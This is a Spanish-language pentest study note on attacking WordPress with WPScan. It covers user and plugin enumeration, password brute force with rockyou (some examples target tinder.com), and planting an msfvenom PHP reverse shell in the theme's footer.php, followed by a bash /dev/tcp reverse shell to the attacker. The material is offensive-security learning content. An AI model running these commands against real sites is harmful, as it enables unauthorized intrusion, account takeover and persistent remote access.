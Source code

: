 ```yaml
---

---
```

-----------

#web #wordpress #reconocimiento #herramientas

----------------

La herramienta **WpScan** es una herramienta utilizada para enumerar los gestores de contenidos de [[WordPress - Definicion y Concepto]]

---
### Ataque formulario login 

Generalmente el formulario de login se llama *wp-login.php* , lo que haremos será usar la ruta hasta el directorio en donde se encuentra este recurso, es decir, si la ruta completa es *http://192.168.20.1/blog/wp-login.php* , nosotros solo usaremos la herramienta de wp-scan hasta */blog* de la siguiente manera:

```bash
wpscan --url http://192.168.20.1/blog --enumerate u,vp  # Comando para enumerar usuarios y plugins vulnerables de uso con metaesploit

# Despues de encontrar un usuario procedemos a realizar fuerza bruta para la constraseña de la siguiente manera:

wpscan --url http://192.168.20.1/blog --passwords /usr/share/wordlist/rockyou.txt --usernames <UsuarioEncontrado>
```



---
### Comandos Generales

Su modo de uso es muy sencillo, podríamos realizar un escaneo a modo de traza con el siguiente código en bash:

```bash
wpscan --url https://tinder.com
```

Si quisiéramos enumerar usuarios validos potenciales existentes podríamos usar el siguiente comando: 

```bash
wpscan --url https://tinder.com --enumerate u
```

Otra de las utilidades de esta app es su capacidad de realizar ataques de fuerza bruta se ejecuta con el siguiente comando:

```bash
wpscan --url https://tinder.com -U xrl3y -P /usr/share/wordlists/rockyou.txt
```

Cabe destacar que este procedimiento también se puede ejecutar de forma manual abusando de la ruta **xmrlpc.php**[^2] , siendo necesario para ello crear un script en bash o en python. 

---
### Dashboard Administrador del WordPress

- Debemos buscar algun apartado para subir archivos y ejecutar un [[File Upload]], en todo caso si no lo hay, entraremos al apartado de *Appereance - Theme Editor* como a continuación:

![[Pasted image 20251021192501.png]]

- Procedemos a buscar un fichero php para ejecución de código, en este caso el mas común es *footer.php* que es el gestor principal como se muestra a continuación: 

*También esta el 404.php que es cuando no encuentra el directorio , este se puede ejecutar mediante el directorio de wp-content/jdbusbdsubdsd asemejando a un recurso desconocido haciendo que se envié la reverse shell*

![[Pasted image 20251021192701.png]]

- Ahi podremos copiar codigo php, podríamos generar una reverse shell como en el apartado de [[2. Reverse Shell]] , sin embargo para la escalada de privilegios es mejor establecer una sesion con metaesploit, por lo tanto nos creamos un payload de la siguiente manera:

```bash
msfvenom -p php/reverse_php LHOST=10.8.100.91 LPORT=443 -f raw > pwned.php
cat pwned.php

# Copiamos todo el codigo del archivo y lo pegarmos en el footer.php del wordpress
# Espichamos el boton de upload para actualizar el codigo
# Ya solo recargando la pagina principal (http://192.168.20.16/blog) y estando en escucha en meterpreter ganariamos acceso
# Para no perder la conexion, una vez ganado el acceso deberiamos enviarnos una shell por netcat a otro puerto con:

MaquinaAtacante>
				nc -nlvp 4444

MaquinaVictima >
				bash -c 'bash -i >& /dev/tcp/<IpAtacante>/4444 0>&1'
```




-----------

## Referencias 

---------

[^1]: Enlace al proyecto de GitHub [Enlace](https://github.com/wpscanteam/wpscan)
[^2]: Enlace al proyecto de GitHub [[xmrlpc]]

